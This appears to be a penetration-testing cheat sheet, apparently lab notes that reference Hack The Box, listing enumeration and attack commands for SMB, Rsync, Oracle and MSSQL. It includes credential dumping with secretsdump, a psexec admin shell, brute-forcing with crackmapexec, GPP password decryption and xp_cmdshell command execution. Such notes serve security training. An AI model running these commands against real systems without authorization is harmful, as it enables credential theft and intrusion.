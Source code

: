 #### SMB (445)

```shell
smbclient -L [IP_ADDR]    # To list out available directories
smbclient \\\\[IP_ADDR]\\[DIRECTORY]    # To show directory content
smbclient \\\\[IP_ADDR]\\[DIRECTORY] -U [DOMAIN]/[USERNAME]    # Sign in with username
smbmap -H [IP_ADDR] -u [USERNAME]
smbmap -R [SHARE] -H [IP_ADDR]
lookupsid.py anonymous@$[IP_ADDR]   # with IPC$ readonly permission
secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP_ADDR]   # with ADMIN$ write permission
psexec.py -dc-ip [IP_ADDR] active.htb/administrator:[PASSWORD]@[IP_ADDR] cmd  # admin privilege; with ADMIN$ write permission
crackmapexec smb [IP_ADDR] --shares
crackmapexec smb [IP_ADDR] -d [domain] -u [USERNAME] -p [PASSWORD] --shares   # can be use for bruteforcing too
enum4linux -a [IP_ADDR]
gpp-decrypt "[cpassword]"   # with sysvol groups.xml readable
```

MS17-010 EternalBlue exploitation for SMBv1 in Windows Vista, 7, 8.1, 10; Server 2008, 2012, 2016 SMB share folder mounting

```shell
mkdir /mnt/[FOLDER_NAME]
mount -t cifs -o username=[USERNAME] //[IP_ADDR]/[SHARED_PATH] /mnt/[FOLDER_NAME]
```

Mounting VHD file Ref: https://www.how2shout.com/linux/mount-virtual-hard-disk-vhd-file-ubuntu-linux/

#### Rsync (873)

```shell
rsync -rdt rsync://[IP_ADDR]
rsync -av [MODULE]@[IP_ADDR]::[MODULE]/ .   # Download
rsync -avp [LOCAL DIRECTORY] [MODULE]@[IP_ADDR]::[REMOTE DIRECTORY]/    # Upload
```

#### Oracle (1521)

```
sqlplus [USERNAME]/[PASSWORD]@[IP_ADDR]/[SID]
sqlplus [USERNAME]/[PASSWORD]@[IP_ADDR]/[SID] as sysdba
---------------------------------
select * from user_role_privs;

```

#### Microsoft SQL (1433)

```shell
impacket-mssqlclient [DOMAIN]/[USERNAME]@[IP_ADDR] -windows-auth    # Connect to mssql server
SELECT IS_SRVROLEMEMBER('sysadmin')   # Check for sysadmin privileage; return 1 for true, 0 for false
SELECT name FROM master.dbo.sysdatabases    # Retrieve list of databases
EXEC master..xp_cmdshell '[CMD]'    # Execute remote command with sysadmin privileage
# to enable xp_cmdshell: https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16
----------------------------------
USE [db];
SELECT name FROM sys.tables;
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
```

